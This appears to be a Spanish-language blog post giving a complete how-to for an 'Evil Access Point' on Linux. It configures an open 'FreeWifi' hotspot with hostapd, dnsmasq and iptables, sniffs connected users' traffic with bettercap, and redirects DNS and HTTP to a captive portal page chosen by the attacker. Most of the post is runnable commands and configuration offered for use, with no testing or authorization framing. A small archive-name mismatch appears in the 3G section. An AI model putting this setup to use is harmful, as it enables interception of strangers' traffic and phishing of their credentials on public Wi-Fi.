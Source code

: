 ```yaml
---
layout: post
title: Evil Access Point
category: Wireless
---
```


Evil Access Point with Linux

![_config.yml]({{ site.baseurl }}/images/20160711.jpeg)


# Materiales
* TL-WN722N (tarjeta de red tp-link)


# Instalando las herramientas
```
sudo apt-get update && sudo apt-get dist-upgrade -y
sudo apt-get install -y hostapd dnsmasq wireless-tools iw
```

### Instalando bettercap
```
sudo apt-get install curl ruby-dev libpcap-dev -y
sudo gem install bettercap
```

# Configuracion
Para trabajar recomiendo crear una carpeta con algun nombre caracteristico como `fakeap`. Luego, crear 3 archivos de configuracion usando algun editor de texto (dentro de la carpeta creada). En el caso de iptables, hay que darle permisos de ejecucion `chmod +x iptables` Suponiendo que trabajaremos con `eth0` y `wlan0`

### iptables
```
ifconfig wlan0 10.0.0.1/24 up
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward
```

### dnsmasq.conf
```
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

### hostapd.conf
```
interface=wlan0
driver=nl80211
ssid=FreeWifi
channel=6
```

# Automatizando la configuracion
Creamos un archivo con algun nombre caracteristico, por ejemplo `initconfig` luego, darle los correspondientes permisos de ejecucion `chmod +x initconfig`

```bash
#!/bin/bash

# Configuraciones iniciales
upstream=eth0
phy=wlan0

# levantando interfaz
ifconfig $phy 10.0.0.1/24 up

# configurando iptables
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o $upstream -j MASQUERADE
iptables -A FORWARD -i $phy -o $upstream -j ACCEPT
echo '1' > /proc/sys/net/ipv4/ip_forward

# Configurando dnsmasq
cat <<EOF > dnsmasq.conf
interface=$phy
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
EOF

# Configurando hostapd
cat <<EOF > hostapd.conf
interface=$phy
driver=nl80211
ssid=FreeWifi
channel=6
EOF
```

# Evil Access Point UP!
Ahora que tenemos las configuraciones hechas, nos toca levantar el Access Point. Para eso ejecutaremos en cada terminal distinta lo siguiente:

```
sudo ./initconfig

sudo dnsmasq -C dnsmasq.conf -d

sudo hostapd hostapd.conf
```

### Bettercap
Iniciamos el sniffer (podemos ocupar cualquiera mientras realice sniffing pasivo, pero esta vez elegí bettercap)

```
sudo su
bettercap -I wlan0 --no-discovery --no-spoofing -X
```

# Revisando la red
Para poder ver quien esta en la red interna se recomienda descargar fing desde la página oficial: [https://www.fing.io/download/](https://www.fing.io/download/){:target="_blank"}

```
wget https://www.fing.io/wp-content/uploads/2016/10/overlook-fing-3.0.deb
sudo dpkg -i overlook-fing-3.0.deb
sudo fing 10.0.0.1/24
```

# Portal cautivo
Para realizar un ataque de portal cautivo no es necesario tener conexion a internet, solo basta levantar el Fake Access Point, pero cambiando las reglas. La idea de este ataque es dejar arriba el servicio de apache con alguna pagina a conveniencia.

```bash
iptables -F
iptables -F -t nat
#iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
#iptables -A FORWARD -i $phy -o eth0 -j ACCEPT
iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j DNAT --to 10.0.0.1
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.1
iptables -P FORWARD DROP
```

# En caso de ocupar 2 wlans
Muchas veces no tenemos acceso por ethernet, por lo que estamos obligados a usar wifi para recibir `wlan0` y emitir `wlan1` señal. Para estos casos las configuraciones varian un poco. (Asumiendo de que tambien hay que modificar las configuraciones anteriores como `iptables`, `dnsmasq.conf` y `hostapd.conf` con sus interfaces respectivos)

### Raspbian
Con un editor de texto hay que modificar el archivo `/etc/network/interfaces`, comentando las lineas que tengan relación con la interfaz
 que ocuparás para crear el Evil Access Point.

```
# interfaces(5) file used by ifup(8) and ifdown(8)

# Please note that this file is written to be used with dhcpcd
# For static IP, consult /etc/dhcpcd.conf and 'man dhcpcd.conf'

# Include files from /etc/network/interfaces.d:
source-directory /etc/network/interfaces.d

auto lo
iface lo inet loopback

iface eth0 inet manual

allow-hotplug wlan0
iface wlan0 inet manual
    wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf

#allow-hotplug wlan1
#iface wlan1 inet manual
    #wpa-conf /etc/wpa_supplicant/wpa_supplicant.conf
```

Recomiendo reiniciar para que las configuraciones se apliquen

```
sudo reboot
```


### network-manager
Se tiene que agregar las 2 ultimas lineas del archivo `/etc/NetworkManager/NetworkManager.conf`, para evitar el conflicto entre la interfaz de red y network-manager

```
[main]
plugins=ifupdown,keyfile

[ifupdown]
managed=false

[keyfile]
unmanaged-devices=interface-name:wlan1
```

Ahora necesitamos reiniciar el servicio de network-manager

```
sudo service network-manager restart
```

# Conectarse por 3G
```
sudo apt-get install ppp
sudo wget "http://downloads.sourceforge.net/project/vim-n4n0/sakis3g.tar.gz?r=http%3A%2F%2Fsourceforge.net%2Fprojects%2Fvim-n4n0%2Ffiles%2F&ts=1363537696&use_mirror=tene~t" -O sakis3g.tar.gz
sudo tar -xzvf sakis36.tar.gz
sudo apt-get install sg3-utils
sudo chmod +x sakis3g
sudo ./sakis3g --interactive
```
